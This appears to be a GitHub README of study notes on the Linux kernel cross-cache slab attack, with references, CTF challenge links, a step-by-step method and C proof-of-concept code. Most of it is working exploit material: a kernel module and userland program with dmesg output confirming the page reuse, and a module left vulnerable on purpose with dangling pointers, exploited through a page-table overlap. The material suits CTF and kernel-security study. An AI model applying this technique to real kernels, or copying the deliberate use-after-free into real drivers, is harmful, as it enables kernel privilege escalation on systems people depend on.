






# cross-cache

[](https://github.com/Yayoi-cs/cross-cache)

## Resources

- Cross cache Attack技术细节分析

[](https://xz.aliyun.com/news/16297)

- Cross Cache Attack技术细节分析

[](https://veritas501.github.io/2023_03_07-Cross Cache Attack技术细节分析/)

- 【pwn】 IERAE CTF 2025 公式 Writeup

[](https://gmo-cybersecurity.com/blog/ierae-ctf-2025-writeup-pwn/)

-  CROSS-X: Generalized and Stable Cross-Cache Attack on the Linux Kernel

[](https://dl.acm.org/doi/10.1145/3719027.3765152)

- d3kcache: From null-byte cross-cache overflow to infinite arbitrary read & write in physical memory space. 

[](https://github.com/arttnba3/D3CTF2023_d3kcache)

- 从 corCTF 一道 kernel pwn 看 Linux 内核 cross-cache overflow 与页级堆风水

[](https://xz.aliyun.com/news/11863)

-  kernel heap exploit-CSDN博客

[](https://blog.csdn.net/Palpitate_LL/article/details/148312183)

## cross-cache CTF challenges

`tsuku CTF 2025 - xcache`: [](https://r1ru.github.io/posts/7/)

`ierae CTF 2025 - vibexec`: [](https://github.com/gmo-ierae/ierae-ctf-2025/tree/main/pwn/vibexec)

`full weak engineer CTF 2025 - cknote`: [](https://github.com/full-weak-engineer/FWE_CTF_2025_public/tree/main/Pwn/cknote)

`corCTF 2022 - cache of castaways`: [](https://github.com/Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/cache-of-castaways)

## Theory
Order-n slab system (not so important)
```Mermaid
graph LR
    subgraph zone
        fa0["free_area[0]"]
        fa1["free_area[1]"]
        fa2["free_area[2]"]
        fa3["free_area[3]"]
        dots1[...]
        fa10["free_area[10]"]
    end
    
    %% free_area[0] - 2^0 = 1 page per block
    fa0 <--> b0_1[page]
    b0_1 <--> b0_2[page]
    b0_2 <--> b0_3[page]
    b0_3 <--> b0_4[page]
    b0_4 <--> b0_5[page]
    b0_5 <--> b0_6[page]
    
    %% free_area[1] - 2^1 = 2 pages per block
    fa1 <--> b1_1["page<br/>――――<br/>page"]
    b1_1 <--> b1_2["page<br/>――――<br/>page"]
    b1_2 <--> b1_3["page<br/>――――<br/>page"]
    
    %% free_area[2] - 2^2 = 4 pages per block
    fa2 <--> b2_1["page<br/>――――<br/>page<br/>――――<br/>page<br/>――――<br/>page"]
    b2_1 <--> b2_2["page<br/>――――<br/>page<br/>――――<br/>page<br/>――――<br/>page"]
    b2_2 <--> b2_3["page<br/>――――<br/>page<br/>――――<br/>page<br/>――――<br/>page"]
    b2_3 <--> b2_4["page<br/>――――<br/>page<br/>――――<br/>page<br/>――――<br/>page"]
    
    %% free_area[10] - 2^10 = 1024 pages per block
    fa10 <--> b10_1["page<br/>――――<br/>page<br/>――――<br/>...<br/>――――<br/>page<br/>――――<br/>page<br/>(2^10 pages)"]
    b10_1 <--> b10_2["page<br/>――――<br/>page<br/>――――<br/>...<br/>――――<br/>page<br/>――――<br/>page<br/>(2^10 pages)"]
```

### Cross cache step by step

[](cross-cache.md#1-allocate-cpu-partial-1-objs-per-slab)

[](cross-cache.md#2-allocate-objs-per-slab-1)

[](cross-cache.md#3-allocate-victim-object)

[](cross-cache.md#4-allocate-objs-per-slab-1)

[](cross-cache.md#5-free-victim-object)

[](cross-cache.md#6-free-object-in-the-victim-s-page)


[](cross-cache.md#7-free-one-object-from-each-page-allocated-in-step-1)

### 1. allocate (cpu_partial+1) * objs_per_slab


### 2. allocate objs_per_slab - 1

> Attention:
> 
> There's no confidence where the IDLE object will be placed.
{style=warning}



### 3. allocate victim object


### 4. allocate objs_per_slab + 1
With this part, we can make sure that page which contain free must become freed with freeing object[victim-objs_per_slab] ~ object[victim+objs_per_slab].


### 5. free victim object

### 6. free object in the victim's page
make UAF page empty


### 7. free one object from each page allocated in step 1
> Attention
> 
> There's no confidence where object will become freed in slab.
{style="warning"}


### PoC (strategy 1)

```c
#include <asm-generic/errno.h>
#include <linux/module.h>
#include <linux/fs.h>
#include <linux/kernel.h>
#include <linux/miscdevice.h>
#include <linux/device.h>
#include <linux/cdev.h>
#include <linux/uaccess.h>
#include <linux/slab.h>
#include <linux/ioctl.h>
#include <linux/mm.h>

#define DEVICE_NAME "tsune"
#define IOCTL_CMD_POC 0x810
#define MSG_SZ 256

static struct kmem_cache *tsune_cache;

// /sys/kernel/slab/tsune_cache/
struct user_req {
    unsigned int cpu_partial;
    unsigned int objs_per_slab;
    unsigned int object_size;
};

static long tsune_ioctl(struct file *file, unsigned int cmd, unsigned long arg) {
    struct user_req req;
    if (copy_from_user(&req, (void __user *)arg, sizeof(req))) { return -EFAULT; }
    if (cmd != IOCTL_CMD_POC) { return -EINVAL; }

    printk(KERN_INFO "tsune: PoC Invoked\n");
    printk(KERN_INFO "tsune: cpu_partial=%u, objs_per_slab=%u\n", req.cpu_partial, req.objs_per_slab);
    unsigned int total = 
        (req.cpu_partial + 1) * req.objs_per_slab 
        + (req.objs_per_slab - 1)
        + 1
        + (req.objs_per_slab + 1);
    unsigned long *list = kmalloc(sizeof(unsigned long) * total, GFP_KERNEL);
    unsigned long *head = list;
    printk(KERN_INFO "tsune: 1. allocate (cpu_partial+1)*objs_per_slab\n");
    for (int i = 0; i < (req.cpu_partial + 1) * req.objs_per_slab; i++) {
        *list++ = (unsigned long)kmem_cache_alloc(tsune_cache, GFP_KERNEL);
    }
    
    printk(KERN_INFO "tsune: 2. allocate objs_per_slab-1\n");
    for (int i = 0; i < req.objs_per_slab - 1; i++) {
        *list++ = (unsigned long)kmem_cache_alloc(tsune_cache, GFP_KERNEL);
    }
    
    printk(KERN_INFO "tsune: 3. allocate uaf object\n");
    unsigned long *uaf_obj = list;
    *list++ = (unsigned long)kmem_cache_alloc(tsune_cache, GFP_KERNEL);

    printk(KERN_INFO "tsune: 4. allocate objs_per_slab+1\n");
    for (int i = 0; i < req.objs_per_slab + 1; i++) {
        *list++ = (unsigned long)kmem_cache_alloc(tsune_cache, GFP_KERNEL);
    }

    printk(KERN_INFO "tsune: 5. free uaf object\n");
    kmem_cache_free(tsune_cache, (void *)(*uaf_obj));

    printk(KERN_INFO "tsune: 6. make page which has a uaf object empty\n");
    for (int i = 1; i < req.objs_per_slab; i++) {
        kmem_cache_free(tsune_cache, (void *)(uaf_obj[i]));
        kmem_cache_free(tsune_cache, (void *)(uaf_obj[-i]));
    }

    printk(KERN_INFO "tsune: 7. free one object per page\n");
    for (int i = 0; i < (req.cpu_partial + 1) * req.objs_per_slab; i += req.objs_per_slab) {
        kmem_cache_free(tsune_cache, (void *)(head[i]));
    }


    printk(KERN_INFO "tsune: uaf object: %lx\n", *uaf_obj);
    unsigned long uaf_page = *uaf_obj & (~0xfff);
    unsigned order = get_order(req.object_size * req.objs_per_slab);
    printk(KERN_INFO "tsune: uaf page: %lx\n", uaf_page);
    printk(KERN_INFO "tsune: uaf page order: %u\n", order);
    void *new_page = alloc_pages(GFP_KERNEL, order);
    void *new_page_ptr = page_address((struct page *)new_page);
    printk(KERN_INFO "tsune: new page: %lx\n", (unsigned long)new_page_ptr);
    if ((unsigned long)new_page_ptr == uaf_page) {
        printk(KERN_INFO "tsune: cross-cache succeed!\n");
    } else {
        printk(KERN_INFO "tsune: cross-cache failed!\n");
    }
    return 0;
}

static struct file_operations tsune_fops = {
    .owner = THIS_MODULE,
    .unlocked_ioctl = tsune_ioctl,
};

static struct miscdevice tsune_device = {
    .minor = MISC_DYNAMIC_MINOR,
    .name = DEVICE_NAME,
    .fops = &tsune_fops,
};

static int __init tsune_init(void) {
    if (misc_register(&tsune_device)) { return -ENODEV; }
    tsune_cache = kmem_cache_create("tsune_cache", MSG_SZ, 0, SLAB_HWCACHE_ALIGN, NULL);
    if (!tsune_cache) {
        return -ENOMEM;
    }
    return 0;
}

static void __exit tsune_exit(void) {
    kmem_cache_destroy(tsune_cache);
    misc_deregister(&tsune_device);
}

module_init(tsune_init);
module_exit(tsune_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("tsune");
MODULE_DESCRIPTION("load to kernel heap master");
```

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include "e.h"

#define DEVICE_NAME "/dev/tsune"
#define IOCTL_CMD_POC 0x810

/*
~ # cat  /sys/kernel/slab/tsune_cache/object_size 
256
~ # cat  /sys/kernel/slab/tsune_cache/objs_per_slab 
16
~ # cat  /sys/kernel/slab/tsune_cache/cpu_partial 
52
*/
struct user_req {
    unsigned int cpu_partial;
    unsigned int objs_per_slab;
    unsigned int object_size;
};

int main(void) {
    info("cross-cache poc");

    int fd = SYSCHK(open(DEVICE_NAME, O_RDWR));
    hl(fd);

    struct user_req req;
    req.cpu_partial = 256;
    req.objs_per_slab = 16;
    req.object_size = 52;
    SYSCHK(ioctl(fd, IOCTL_CMD_POC, &req));
}
```

```C
# dmesg
...

[    8.497624] tsune: PoC Invoked
[    8.497680] tsune: cpu_partial=256, objs_per_slab=16
[    8.497749] tsune: 1. allocate (cpu_partial+1)*objs_per_slab
[    8.501343] tsune: 2. allocate objs_per_slab-1
[    8.501440] tsune: 3. allocate uaf object
[    8.501460] tsune: 4. allocate objs_per_slab+1
[    8.501502] tsune: 5. free uaf object
[    8.501522] tsune: 6. make page which has a uaf object empty
[    8.501590] tsune: 7. free one object per page
[    8.501716] tsune: uaf object: ffff89ff822f3d00
[    8.501743] tsune: uaf page: ffff89ff822f3000
[    8.501756] tsune: uaf page order: 0
[    8.501783] tsune: new page: ffff89ff822f3000
[    8.501799] tsune: cross-cache succeed!
```

## PoC for most of the kernel allocator
:thinking:
- module summary
  - linux kernel module that provide arbitrary number of alloc/free/read/write, with 1024 dangling pointer.
- what I did
  - cross-cache and overlap pte to the uaf page.
### vm
```c
$ uname -r
6.15.6
```

### module

```c
#include <linux/module.h>
#include <linux/fs.h>
#include <linux/kernel.h>
#include <linux/miscdevice.h>
#include <linux/device.h>
#include <linux/cdev.h>
#include <linux/uaccess.h>
#include <linux/slab.h>
#include <linux/ioctl.h>

#define DEVICE_NAME "tsune"
#define IOCTL_CMD_ALLOC 0x810
#define IOCTL_CMD_FREE 0x811
#define IOCTL_CMD_READ 0x812
#define IOCTL_CMD_WRITE 0x813
#define IOCTL_CMD_PAGE 0x814
#define MSG_SZ 512

struct user_req {
    int idx;
    char *userland_buf;
};

char *ptrs[1024];
static struct kmem_cache *tsune_cache;

static long tsune_ioctl(struct file *file, unsigned int cmd, unsigned long arg) {
    struct user_req req;
    if (copy_from_user(&req, (void __user *)arg, sizeof(req))) {
        return -EFAULT;
    }
    if (req.idx < 0 || req.idx >= 1024) {
        return -EINVAL;
    }

    switch(cmd) {
        case IOCTL_CMD_ALLOC:
            ptrs[req.idx] = kmem_cache_alloc(tsune_cache, GFP_KERNEL);
            printk("%x: %lx\n",req.idx,(unsigned long)ptrs[req.idx]);
            if (!ptrs[req.idx]) {
                return -ENOMEM;
            }
            break;
        case IOCTL_CMD_FREE:
            if (ptrs[req.idx]) {
                kmem_cache_free(tsune_cache, ptrs[req.idx]);
                //ptrs[req.idx] = NULL;
            }
            break;
        case IOCTL_CMD_READ:
            if (ptrs[req.idx]) {
                if (copy_to_user(req.userland_buf, ptrs[req.idx], MSG_SZ)) {
                    return -EFAULT;
                }
            }
            break;
        case IOCTL_CMD_WRITE:
            if (ptrs[req.idx]) {
                if (copy_from_user(ptrs[req.idx], req.userland_buf, MSG_SZ)) {
                    return -EFAULT;
                }
            }
            break;
        case IOCTL_CMD_PAGE:
            if (ptrs[req.idx]) {
                if (copy_to_user(req.userland_buf, (char *)((unsigned long)(ptrs[req.idx])&(~0xfff)), MSG_SZ)) {
                    return -EFAULT;
                }
            }            
            break;
        default:
            return -EINVAL;
    }

    return 0;
}

static struct file_operations tsune_fops = {
    .owner = THIS_MODULE,
    .unlocked_ioctl = tsune_ioctl,
};

static struct miscdevice tsune_device = {
    .minor = MISC_DYNAMIC_MINOR,
    .name = DEVICE_NAME,
    .fops = &tsune_fops,
};

static int __init tsune_init(void) {
    if (misc_register(&tsune_device)) { return -ENODEV; }
    tsune_cache = kmem_cache_create("tsune_cache", MSG_SZ, 0, SLAB_HWCACHE_ALIGN, NULL);
    if (!tsune_cache) {
        return -ENOMEM;
    }
    return 0;
}

static void __exit tsune_exit(void) {
    kmem_cache_destroy(tsune_cache);
    misc_deregister(&tsune_device);
}

module_init(tsune_init);
module_exit(tsune_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("tsune");
MODULE_DESCRIPTION("load to kernel heap master");
```

## kmemcache-1024

```c
~ # cat /sys/kernel/slab/tsune_cache/objs_per_slab 
8
~ # cat /sys/kernel/slab/tsune_cache/cpu_partial 
24
```

## kmemcache-512

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include "e.h"

#define DEVICE_NAME "/dev/tsune"
#define IOCTL_CMD_ALLOC 0x810
#define IOCTL_CMD_FREE 0x811
#define IOCTL_CMD_READ 0x812
#define IOCTL_CMD_WRITE 0x813
#define IOCTL_CMD_PAGE 0x814
#define MSG_SZ 512

#define N_PTE 0x8

struct user_req {
    int idx;
    char *userland_buf;
};

#define OBJECT_SIZE 512
#define OBJS_PER_SLAB 8 
#define CPU_PARTIAL 52

void ioctl_alloc(int fd, int i) {
    struct user_req req = {
        .idx = i,
        .userland_buf = NULL
    };

    SYSCHK(ioctl(fd,IOCTL_CMD_ALLOC,&req));
}

void ioctl_free(int fd, int i) {
    struct user_req req = {
        .idx = i,
        .userland_buf = NULL
    };

    SYSCHK(ioctl(fd,IOCTL_CMD_FREE,&req));
}

int main(void) {
    info("kmemcache-512");

    size_t size = 2*1024*1024;
    hl(size)

    void *pte_setup = SYSCHK(mmap(PTI_TO_VIRT(0x1, 0x0, 0x0, 0x0, 0x0), size,
                         PROT_READ | PROT_WRITE, MAP_PRIVATE | 0x20 | MAP_FIXED, -1, 0));
    hl(pte_setup)
    *(char *)pte_setup = 0x1;

    int fd = SYSCHK(open(DEVICE_NAME, O_RDWR));
    hl(fd);

    info("1. allocate (cpu_partial+1)*objs_per_slab")
    int global;
    rep(_,(CPU_PARTIAL+1)*OBJS_PER_SLAB) {
        ioctl_alloc(fd,global);
        global++;
    }

    info("2. allocate objs_per_slab-1")
    rep(_,OBJS_PER_SLAB-1) {
        ioctl_alloc(fd,global);
        global++;
    }

    info("3. allocate uaf object")
    int uaf_idx = global;
    ioctl_alloc(fd,global);
    global++;

    info("4. allocate objs_per_slab+1")
    rep(_,OBJS_PER_SLAB+1) {
        ioctl_alloc(fd,global);
        global++;
    }

    info("5. free uaf object")
    ioctl_free(fd,uaf_idx);

    info("6. make page which has a uaf object empty")
    range(i,1,OBJS_PER_SLAB) {
        ioctl_free(fd,uaf_idx+i);
        ioctl_free(fd,uaf_idx-i);
    }

    info("7. free one object per page")
    rep(i,CPU_PARTIAL) {
        ioctl_free(fd,OBJS_PER_SLAB*i);
    }
    
    char buf[MSG_SZ];
    struct user_req read = {
        .idx = uaf_idx,
        .userland_buf = buf,
    };


    void *pte_new = SYSCHK(mmap(PTI_TO_VIRT(0x1, 0x0, 0x80, 0x0, 0x0), size,
                         PROT_READ | PROT_WRITE, MAP_PRIVATE | 0x20 | MAP_FIXED, -1, 0));
    hl(pte_new)
    for (size_t i = 0; i < size; i += 4096) {
        *((char*)pte_new + i) = 1;
    }

    SYSCHK(ioctl(fd,IOCTL_CMD_READ,&read));
    xxd_qword(buf,sizeof(buf));
}
```

## kmalloc-1024
